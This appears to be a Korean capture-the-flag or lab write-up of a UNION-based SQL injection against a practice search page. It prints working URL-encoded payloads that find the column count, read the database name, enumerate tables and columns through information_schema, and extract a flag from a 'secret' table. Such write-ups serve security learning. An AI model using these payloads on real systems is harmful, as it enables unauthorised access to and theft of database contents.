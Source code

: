 - 이번 페이지는 검색어(`ID`)를 입력하면 해당 `ID`에 대한 게시판 정보가 출력되는 구조였으며, **ID 값은 무조건 입력한 그대로 출력**된다.
- 실제 DB에 존재하지 않더라도 게시판은 항상 최소 하나의 데이터를 출력한다는 특징이 있었고, **정상적인 데이터일 경우 'Info'라는 문구가 출력**되는 것을 확인할 수 있었다.

- 먼저 컬럼 수를 유추하기 위해 `ORDER BY` 구문을 사용하였다.
**normaltic'+order+by+6%23** 를 입력했을 때 게시물이 정상 출력되었고,
**normaltic'+order+by+7%23** 을 입력하면 게시물이 출력되지 않아, 해당 SELECT 문은 **6개의 컬럼**으로 구성되어 있다는 것을 확인하였다.

![union select](./screenshots/sql_2_database.png)

- 이후 `UNION SELECT` 구문을 통해 데이터 삽입이 가능한지 확인하였다.
아래의 페이로드를 사용하자 검색 결과 중 하나에 현재 사용 중인 데이터베이스 이름이 출력되었다.

```html
'+union+select+1,2,3,4,5,database()%23
```

- 출력 결과를 통해 현재 데이터베이스 이름은 **sqli_5**임을 확인하였다.

- 이어서 `information_schema.tables`를 활용하여 데이터베이스 내 테이블 이름을 조회하였다.
- 다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret**이 출력되었다.

```html
'+union+select+1,2,3,4,5,(select+table_name+from+information_schema.tables+where+table_schema='sqli_5'+limit+2,1)%23
```

- `information_schema.columns`를 사용하여 `secret` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
'+union+select+1,2,3,4,5,(select+column_name+from+information_schema.columns+where+table_schema='sqli_5'+and+table_name='secret'+limit+0,1)%23
```

- 그 결과, 해당 테이블에는 **flag**라는 컬럼이 존재함을 확인하였다.

- 마지막으로, 다음과 같은 쿼리를 통해 실제 **flag 값**을 추출하였다.

```html
'+union+select+1,2,3,4,5,(select+flag+from+secret+limit+1,1)%23
```
